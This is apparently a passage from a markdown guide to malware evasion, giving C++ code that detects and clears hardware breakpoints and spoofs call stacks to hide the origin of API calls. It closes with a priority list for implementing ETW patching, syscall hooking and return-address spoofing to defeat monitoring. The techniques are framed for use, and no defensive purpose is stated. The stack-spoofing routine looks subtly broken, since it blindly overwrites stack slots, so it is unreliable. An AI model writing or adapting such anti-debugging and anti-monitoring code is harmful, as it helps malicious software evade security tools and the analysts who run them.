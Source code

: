 ### 9. **Hardware Breakpoint Detection**
```cpp
// Detect and clear hardware breakpoints
bool DetectHardwareBreakpoints() {
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
    
    if (GetThreadContext(GetCurrentThread(), &ctx)) {
        // Check DR0-DR3 for breakpoint addresses
        if (ctx.Dr0 || ctx.Dr1 || ctx.Dr2 || ctx.Dr3) {
            // Hardware breakpoints detected
            // Clear them
            ctx.Dr0 = ctx.Dr1 = ctx.Dr2 = ctx.Dr3 = 0;
            ctx.Dr7 = 0;
            SetThreadContext(GetCurrentThread(), &ctx);
            return true;
        }
    }
    return false;
}
```

### 10. **Call Stack Spoofing**
```cpp
// Spoof call stack to hide origin of API calls
void SpoofCallStack() {
    // Manipulate stack frames to appear as if calls originated from legitimate module
    PVOID* stackFrame = (PVOID*)_AddressOfReturnAddress();
    
    // Find a legitimate return address in kernel32.dll
    HMODULE kernel32 = GetModuleHandleA("kernel32.dll");
    MODULEINFO modInfo;
    GetModuleInformation(GetCurrentProcess(), kernel32, &modInfo, sizeof(modInfo));
    
    // Replace return addresses in stack with legitimate ones
    for (int i = 0; i < 10; i++) {
        if (stackFrame[i] >= modInfo.lpBaseOfDll && 
            stackFrame[i] <= (BYTE*)modInfo.lpBaseOfDll + modInfo.SizeOfImage) {
            // Already in kernel32, leave it
        } else {
            // Replace with legitimate address
            stackFrame[i] = (PVOID)GetProcAddress(kernel32, "Sleep");
        }
    }
}
```

## 🛡️ Implementation Priority

### High Priority (Implement First)
1. **ETW Patching** - Prevents most modern monitoring
2. **Syscall Hooking** - Bypasses user-mode detection
3. **Return Address Spoofing** - Hides injection source
4. **Hardware Breakpoint Detection** - Prevents debugging
